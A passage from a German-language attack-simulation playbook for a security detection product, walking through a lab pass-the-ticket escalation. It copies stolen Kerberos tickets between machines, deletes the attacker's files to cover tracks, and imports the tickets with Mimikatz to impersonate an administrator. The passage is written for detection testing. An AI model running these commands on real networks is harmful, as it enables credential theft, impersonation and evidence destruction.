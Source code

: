     ```dos
    xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
    ```

    ![Export der gesammelten Anmeldeinformationen von AdminPC zurück zu VictimPC](media/playbook-escalation-export_tickets2.png)

1. Lassen Sie uns unsere Spuren auf dem AdminPC beseitigen, indem wir unsere Dateien löschen.

    ```dos
    rmdir \\adminpc\c$\temp /s /q
    ```

    > [!Note]
    > Erfahrenere Angreifer werden den Datenträger nicht berühren, wenn sie beliebigen Code auf einem Computer ausführen, nachdem sie Administratorrechte auf ihm erhalten haben.

    Auf **VictimPC** haben wir diese gesammelten Tickets im Ordner **c:\temp\adminpc_tickets** :

    ![C:\temp\tickets ist unsere exportierte Mimikatz-Ausgabe aus AdminPC](media/playbook-escalation-export_tickets4.png)

### <a name="mimikatz-kerberosptt"></a>Mimikatz Kerberos::ptt

Die Tickets befinden sich jetzt lokal auf VictimPC. Nun ist es an der Zeit, durch „Pass-the-Ticket“ zu SamiraA zu werden.

1. Öffnen Sie vom Speicherort von **Mimikatz** auf dem Dateisystem von **VictimPC** aus eine neue **Eingabeaufforderung mit erhöhten Rechten** , und führen Sie den folgenden Befehl aus:

    ```dos
    mimikatz.exe "privilege::debug" "kerberos::ptt c:\temp\adminpc_tickets" "exit"
    ```

    ![Importieren der den gestohlenen Tickets in den cmd.exe-Prozess](media/playbook-escalation-ptt1.png)

1. Überprüfen Sie in derselben Eingabeaufforderung mit erhöhten Rechten, ob sich die richtigen Tickets in der Eingabeaufforderungssitzung befinden. Führen Sie den folgenden Befehl aus:

    ```dos
    klist
    ```

    ![Ausführen von „klist“, um die importierten Tickets im CMD-Prozess anzuzeigen](media/playbook-escalation-ptt2.png)

1. Beachten Sie, dass diese Tickets ungenutzt bleiben. Wir haben als Angreifer fungiert und das Ticket erfolgreich übergeben. Wir haben die Anmeldeinformationen von SamirA von AdminPC gesammelt und sie dann an einen anderen Prozess weitergegeben, der auf VictimPC ausgeführt wird.

    > [!Note]
    > Genau wie bei Pass-the-Hash weiß [!INCLUDE [Product short](includes/product-short.md)] nicht, dass das Ticket aufgrund der lokalen Clientaktivität weitergegeben wurde. [!INCLUDE [Product short](includes/product-short.md)] erkennt jedoch die Aktivität, *sobald das Ticket verwendet wird* , d. h. wenn es für den Zugriff auf eine andere Ressource oder einen anderen Dienst genutzt wird.

1. Schließen Sie Ihren simulierten Angriff ab, indem Sie von **VictimPC** aus auf den Domänencontroller zugreifen. Führen Sie in der Eingabeaufforderung, die jetzt mit den Tickets von SamirA im Speicher ausgeführt wird, folgenden Befehl aus:
